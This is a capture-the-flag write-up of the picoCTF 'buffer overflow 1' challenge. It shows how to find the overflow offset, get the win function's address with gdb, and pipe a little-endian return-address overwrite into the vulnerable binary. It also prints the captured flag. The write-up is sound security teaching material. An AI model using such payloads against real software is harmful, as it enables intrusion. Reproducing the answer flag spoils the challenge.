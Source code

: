 # buffer overflow 1
__Category:__ Binary Exploitation   
__Points:__ 200

### Problem:

Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](vuln)? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. [Source](vuln.c).

##### Hints:
> This time you're actually going to have to control that return address!

> Make sure you consider Big Endian vs Little Endian.

### Solution:

I started out by taking a look at the source which consists of three functions. win, vuln and main. 
Upon quick inspection it seems win reads the flag from a file on the server, vuln gets user input then calls get_return_address.
I'd assume get_return_adress is referenced in asm.h, a custom header included in the program.
Main does some setup then calls vuln.

I then ran the program on te picoCTF shell. Since vul uses a buffer of 32 chars I first entered less than 32 chars.
```aaaa```
vuln printed the address 0x80486b3.

I then entered 32 chars followed by the digitz 0-9 and the alphabet
```aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0123456789abcdefghijklmnopqrstuvwxyz```
vuln printed the adress 0x66656463. This is the hex value of "fedc" so it seems overflowing the buffer overwrites the return value of get_return_address.

I then used gdb to get the address of win.

```bash
$ gdb vuln
(gdb) info address win
Symbol "win" is at 0x80485cb in a file compiled without debugging.
```
I then echoed the string used before into vuln, replacing 'cdef' with '\xcb\x85\x04\x08'

```bash
$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0123456789ab\xcb\x85\x04\x08ghijklmnopqrstuvwxyz" | ./vuln              
Please enter your string:                                           
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb     
picoCTF{addr3ss3s_ar3_3asy65489706}Segmentation fault (core dumped)
```

### Flag:

picoCTF{addr3ss3s_ar3_3asy65489706}

